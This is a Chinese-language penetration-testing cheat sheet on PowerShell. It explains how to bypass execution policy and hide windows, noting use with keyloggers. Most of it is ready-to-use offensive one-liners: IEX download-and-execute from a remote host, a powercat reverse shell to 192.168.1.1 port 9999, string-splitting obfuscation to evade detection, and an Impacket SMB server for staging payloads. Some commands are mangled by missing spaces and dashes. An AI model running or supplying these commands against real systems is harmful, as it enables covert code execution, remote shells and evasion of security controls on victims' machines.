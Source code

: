 ```powershell
powershell.exe -ExecutionPolicy bypass -File "C:\Users\XX\Desktop\test\test.ps1"
```

ExecutionPolicy Bypass: 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell 的安全策略规定了 PowerShell 不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则。在渗透测试中，基本每次运行 PowerShell 脚本时都要使用这个参数。
* WindowStyle Hidden: 隐藏窗口。
* NoLogo: 启动不显示版权标志的 PowerShell.
* NonInteractive (-Nonl): 非交互模式，PowerShell 不为用户提供交互的提示。
* NoProfile (-NoP): PowerShell 控制台不加载当前用户的配置文件。
* Noexit: 执行后不退出 Shell。这在使用键盘记录等脚本时非常重要。

### 本地隐藏绕过权限执行脚本

```powershell
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden NoLogo -NonInteractive -NoProfile File "test.ps1"
```

### 远程下载并执行

```powershell
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/1/evil.txt'))"
```

```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.1.1/1/powercat.ps1'); powercat -c 192.168.1.1 -p 9999 -e cmd
```

**将命令拆分为字符串，然后进行拼接**
```powershell
powershell "$a='IEX(New-Object Net.WebClient).Downlo';$b='11(''https://xxx.com/payload/test/test.ps1'')'.Replace('11','adString');IEX ($a+$b)"
```

**用IEX下载远程PS1脚本绕过权限执行**
```powershell
PowerShell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonI IEX(New-ObjectNet.WebClient).DownloadString("test.ps1");[Parameters]
```

---

## 白名单

### smb

kali 使用 Impacket
```bash
mkdir smb && cd smb
impacket-smbserver share `pwd`
```

windows 命令行下拷贝
```
copy \\IP\share\file.exe file.exe
```
